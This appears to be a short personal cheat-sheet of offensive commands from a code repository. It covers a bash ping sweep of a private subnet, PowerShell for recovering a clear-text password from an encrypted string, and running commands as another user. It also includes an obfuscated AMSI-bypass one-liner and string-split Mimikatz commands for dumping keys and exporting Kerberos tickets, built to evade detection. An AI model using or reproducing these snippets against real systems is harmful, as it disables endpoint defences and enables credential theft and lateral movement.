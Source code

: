 # ps
ps = ping sweep

just some note will add here
# 
```bash
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

#
convert encrypted powershell password into clear text:
```powershell
$pwd = ConvertTo-SecureString <encrypted text here>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "User",$pwd
$cred.GetNetworkCredential()
```
to Execute Command in powershell as another user without runasCs :
```powershell
invoke-command -Computername localhost -Credential $cred -ScriptBlock { whoami }
```
note: you might find yourself in more restriction for using invoke-command rather than RunasCs 


```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )



$j = “yS“
$i = “E“
$h = “k“
$g = “E“
$f = “::“
$e = “a“
$d = “lS“
$c = “r“
$b = “EKu“
$a = “s“
$Pwn = $a + $b + $c + $d + $e + $f + $g + $h + $i + $j

$cmd9 = "s" + "e" + "k" + "u" + "r" + "l" + "s" + "a" + "::" + "t" + "i" + "c" + "k" + "e" + "t" + "s" + " " + "/" + "e" + "x" + "p" + "o" + "r" + "t"
```
